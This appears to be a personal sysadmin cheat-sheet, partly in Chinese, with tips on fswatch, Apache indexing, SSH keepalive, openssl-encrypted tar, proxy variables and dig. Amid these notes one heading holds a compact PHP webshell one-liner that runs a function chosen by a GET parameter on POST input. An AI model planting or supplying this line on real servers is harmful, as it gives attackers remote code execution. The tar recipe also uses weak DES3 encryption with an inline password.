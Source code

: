 # fswatch
`go install github.com/codeskyblue/fswatch`

# httpd
* [http://httpd.apache.org/docs/trunk/mod/mod_autoindex.html#indexoptions](http://httpd.apache.org/docs/trunk/mod/mod_autoindex.html#indexoptions)

```

    Options Indexes FollowSymLinks
    IndexOptions FoldersFirst HTMLTable NameWidth=* VersionSort
```


# ($_=@$_GET[2]).@$_($_POST[1])


# ssh connection alive
## server
```

	TCPKeepAlive yes #表示TCP保持连接不断开
	ClientAliveInterval 300 #指定服务端向客户端请求消息的时间间隔，单位是秒，默认是0，不发送。设置个300表示5分钟发送一次（注意，这里是服务端主动发起），然后等待客户端响应，成功，则保持连接。
	ClientAliveCountMax 3 #指服务端发出请求后客户端无响应则自动断开的最大次数。使用默认给的3即可。
```
### 注意：TCPKeepAlive必须打开，否则直接影响后面的设置。ClientAliveInterval设置的值要小于各层防火墙的最小值，不然，也就没用了。最后要重启sshd服务才生效
## client
```

	Host * #表示需要启用该规则的服务端（域名或ip）
		ServerAliveInterval 60 #表示没60秒去给服务端发起一次请求消息（这个设置好就行了）
		ServerAliveCountMax 3 #表示最大连续尝试连接次数（这个基本不用设置）
```
## one time
`ssh -o ServerAliveInterval=30 user@host`


# secure tar
```

	tar czf - package | openssl des3 -salt -k youPassword -out tar.tar.gz
	#dd if=tar.tar.gz |openssl tar -d -k youPassword |tar zxf -
	openssl des3 -d -salt -k youPassword -in tar.tar.gz | tar xzf -
```


# bash proxy
```

		export https_proxy=10.0.0.52:8080
		export https_proxy=user:pass@192.158.8.8:8080
		export https_proxy=socks://10.0.0.52:1080
		export https_proxy=socks4://10.0.0.52:1080
		export https_proxy=socks5://10.0.0.52:1080
		export ftp_proxy=socks5://10.0.0.52:1080
		export no_proxy="*.aiezu.com,10.*.*.*,192.168.*.*,*.local,localhost,127.0.0.1"
```


# dig
`dig txt b.aliyuntest.com @8.8.8.8`

# shell beep
`echo -ne '\007'` or `echo -e "\a"` or `echo -n Ctrl+V Ctrl+G`
